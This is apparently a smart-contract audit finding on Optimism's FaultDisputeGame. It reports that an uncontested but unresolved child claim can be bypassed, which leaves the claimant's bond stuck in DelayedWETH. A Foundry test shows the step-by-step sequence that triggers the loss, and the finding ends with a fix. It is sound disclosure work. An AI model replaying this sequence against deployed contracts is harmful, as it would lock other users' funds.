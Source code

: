 Broad Cloth Goldfish

medium

# A dispute game can be resolved before an uncontested subgame has been resolved. This leads to un-retrievable funds for the claimant (only retrievable by owner of DelayedWETH)

## Summary
The invariant in `FaultDisputeGame.resolveClaim()` stating `INVARIANT: Cannot resolve a subgame containing an unresolved claim` can be violated due to an edge case and incomplete check. This leads to the entire bond of a claimant being lost and unredeemable until manual admin intervention. 

## Vulnerability Detail
The `FaultDisputeGame.resolveClaim()` function loops across the challenges on a given claim, and reverts if any one of the claim's subgames have more than 0 subgames. The intention of this is to prevent the resolution of a claim before it's subclaim is resolved (maintaining proper order of resolution).

```solidity
for (uint256 i = 0; i < challengeIndicesLen; ++i) {

                    /*[OTHER CODE REMOVED]*/

    uint256 challengeIndex = challengeIndices[i];
    // INVARIANT: Cannot resolve a subgame containing an unresolved claim
    if (subgames[challengeIndex].length != 0) revert OutOfOrderResolution();

                    /*[OTHER CODE REMOVED]*/

}
```

As shown in the code comment above, it is stated as an INVARIANT that one cannot resolve a subgame containing an unresolved claim. However, due to an edge case this invariant can be violated leading to loss of user funds.

The issue is that the above check relies on the assumption that if the challenge has 0 subgames, then it must have been resolved. However that is not the case, since some subgames can simply be uncontested, but not resolved yet.

This means that even though the subgame has not been resolved, the above check does not revert, so the parent claim can continue to be resolved. 

## Impact
Once the parent claim has been resolved, and any other claims have been resolved, the entire game can be resolved. After this, the child claim which was left unresolved will not be able to be resolved via `resolveClaim` since the game is no longer `IN_PROGRESS`. The claimant's bond is stuck in the `DelayedWETH` contract, and the only way to retrieve it would be to request it from the owner of the `DelayedWETH` contract.

## Code Snippet
https://github.com/sherlock-audit/2024-02-optimism-2024/blob/f216b0d3ad08c1a0ead557ea74691aaefd5fd489/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L445-L446

## Proof of Concept
The following proof of concept proves that the invariant (invariant: claim cannot be resolved when it has unresolved subgames) can be violated.

**To run the PoC:** add the following foundry test to `test/dispute/FaultDisputeGame.t.sol` in the `packages/contracts-bedrock` package.

Then run `forge test --mt test_bobCantResolveClaim_lostBond` in the terminal

<details>

<summary> Foundry test </summary>

```solidity
function test_bobCantResolveClaim_lostBond() public {
    uint256 balance = 1000 ether;
    address alice = address(0xa11ce);
    address bob = address(0xb0b);
    address charlie = address(0xc0c);
    vm.deal(address(this), balance);
    vm.deal(alice, balance);
    vm.deal(bob, balance);
    vm.deal(charlie, balance);

    // Make claims with bob, charlie and the test contract on defense, and alice as the challenger
    // charlie is successfully countered by alice
    // alice is successfully countered by both bob and the test contract

    // Alice challenges the root claim via 'attack'
    uint256 firstBond = _getRequiredBond(0);
    vm.prank(alice);
    gameProxy.attack{ value: firstBond }(0, _dummyClaim());

    // Bob challenges alice's claim via 'defend'
    uint256 secondBond = _getRequiredBond(1);
    vm.prank(bob);
    gameProxy.defend{ value: secondBond }(1, _dummyClaim());

    // Getting the claim index of bob so it can be skipped later
    uint256 bob_claimIndex = gameProxy.claimDataLen()-1;

    // Charlie challenges alice's claim via 'attack'
    vm.prank(charlie);
    gameProxy.attack{ value: secondBond }(1, _dummyClaim());

    // this is done by the test contract
    gameProxy.attack{ value: secondBond }(1, _dummyClaim());

    // alice challenges charlie's claim via 'attack'
    uint256 thirdBond = _getRequiredBond(3);
    vm.prank(alice);
    gameProxy.attack{ value: thirdBond }(3, _dummyClaim());

    // All in one TX: resolve all claims (except for bob's) ---> then resolve the game 
    vm.warp(block.timestamp + 3 days + 12 hours + 1 seconds);
    for (uint256 i = gameProxy.claimDataLen(); i > 0; i--) {
        if (i - 1 == bob_claimIndex) {
            console.log("SKIPPING BOB");
            continue;
        }
        (bool success,) = address(gameProxy).call(abi.encodeCall(gameProxy.resolveClaim, (i - 1)));
        assertTrue(success);
    }
    // resolve the game fully now
    gameProxy.resolve();

    // ASSERT: bob can no longer resolve his claim
    (bool success,) = address(gameProxy).call(abi.encodeCall(gameProxy.resolveClaim, bob_claimIndex));
    assertFalse(success);

    // Wait for the withdrawal delay.
    vm.warp(block.timestamp + delayedWeth.delay() + 1 seconds);

    gameProxy.claimCredit(address(this));
    gameProxy.claimCredit(alice);

    // Bob didn't get to resolve his uncontested claim, so lost his bond forever
    vm.expectRevert(NoCreditToClaim.selector);
    gameProxy.claimCredit(bob);

    // Charlie's claim should revert since it's value is 0
    vm.expectRevert(NoCreditToClaim.selector);
    gameProxy.claimCredit(charlie);

    //Assert that bob lost his bond
    assertEq(bob.balance, balance - secondBond);

    //Assert that other bonds (not bob's) were paid out correctly.
    uint256 aliceLosses = firstBond;
    uint256 charlieLosses = secondBond;
    
    assertEq(address(this).balance, balance + aliceLosses, "incorrect this balance");
    assertEq(alice.balance, balance - aliceLosses + charlieLosses, "incorrect alice balance");
    assertEq(charlie.balance, balance - charlieLosses, "incorrect charlie balance");
    assertEq(address(gameProxy).balance, 0);
}
```
</details>

## Tool used
Manual Review, Foundry

## Recommendation
Consider using a more effective method to check whether a claim is resolved or not. 

For example, an extra boolean field in the `ClaimData` struct called `resolved` can be set to true whenever a claim has been resolved via `resolveClaim()`. Then this boolean can be checked, rather than checking the number of subgames which does not cover all cases correctly.